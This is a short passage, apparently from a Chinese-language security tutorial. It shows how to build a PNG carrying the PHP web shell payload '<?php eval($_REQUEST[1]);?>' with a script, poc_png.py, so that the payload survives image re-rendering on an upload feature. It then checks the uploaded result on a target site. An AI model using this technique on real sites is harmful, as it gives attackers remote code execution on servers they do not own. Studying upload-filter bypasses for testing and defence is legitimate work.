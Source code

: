  修改的索引图片如下：

![](imgs/16036304687175.png) 

然后使用 Python2 运行脚本：

```bash
python poc_png.py -p '<?php eval($_REQUEST[1]);?>' -o gg_shell.png old.png
```

生成新的 gg_shell.png 图片如下：

![](imgs/1603630522797.png) 

这个图片是带 payload 的：

![](imgs/16036306183035.png) 

然后上传到目标网站上面渲染一下再导出：

 ![](imgs/16036307974999.png) 

来检测一下我们的 payload 是否还存在了：

![](imgs/16036344921925.png) 
